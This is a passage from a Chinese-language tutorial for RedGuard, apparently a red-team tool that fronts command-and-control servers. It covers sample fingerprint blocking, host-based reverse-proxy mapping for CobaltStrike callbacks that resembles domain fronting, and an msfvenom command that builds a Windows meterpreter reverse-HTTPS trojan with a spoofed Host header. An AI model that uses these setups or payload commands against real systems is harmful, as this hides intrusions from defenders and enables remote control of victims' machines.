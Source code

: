 **HTTP流量**

![image.png](https://raw.githubusercontent.com/wikiZ/RedGuardImage/main/10b7b4d8f1d66bbf98e404332bf5d87.png)

如图所示，我们根据上述样本Salt值及Host字段作为指纹生成依据，这里我们已知:

- **Salt值：866e5289337ab033f89bc57c5274c7ca**
- **Host字段值：redguard.com**

根据对上述值进行拼接得到sample指纹为：

```bash
22e6db08c5ef1889d64103a290ac145c
```

目前已知上述样本指纹，现在我们在RedGuard配置文件中设置自定义的Header字段及样本指纹用于恶意流量拦截。值得注意的是，我们可以拓展多个样本指纹，不同指纹之间以逗号分隔，FieldName需要和Malleable Profile中配置的Header字段名称保持一致。

![image.png](https://raw.githubusercontent.com/wikiZ/RedGuardImage/main/aa7488ece6370ff2559400a108664a4.png)

因为RedGuard的配置文件为热配置，所以这里我们不需要重新启停RG即可实现针对希望失效的样本进行拦截，当我们希望该样本重新生效时，只需在RG配置文件中删除相关样本指纹即可实现。

**演示效果**

![image.png](https://raw.githubusercontent.com/wikiZ/RedGuardImage/main/4d37798254ba9b5729ac886f90a10f7.png)

# 0x04 案例分析

## CobaltStrike上线

如果说上面的这种方式有一个问题就是，实际上线的C2服务器是不能通过防火墙直接拦截掉的，因为在反向代理中实际进行负载均衡请求的是云服务器厂商IP进行的。

如果是单兵作战的话，我们可以在云服务器防火墙设置拦截策略。

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150356-58b9586c-d99d-1.png)

然后把代理指向的地址设置为https://127.0.0.1:4433这种即可。

```bash
{"360.net":"http://127.0.0.1:8080","360.com":"https://127.0.0.1:4433"}
```

而且因为我们的基础验证就是基于HTTP HOST请求头来做的，所以在HTTP流量中看到的也是与域前置的方式一致，但是成本更低，只需要一台云服务器即可实现。

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150942-26f6c264-d99e-1.png)

对于监听器的设置上线端口设置为RedGuard反向代理端口，监听端口为本机实际上线端口。

## Metasploit上线

**生成木马**

```bash
$ msfvenom -p windows/meterpreter/reverse_https LHOST=vpsip LPORT=443 HttpHostHeader=360.com 
-f exe -o ~/path/to/payload.exe
```
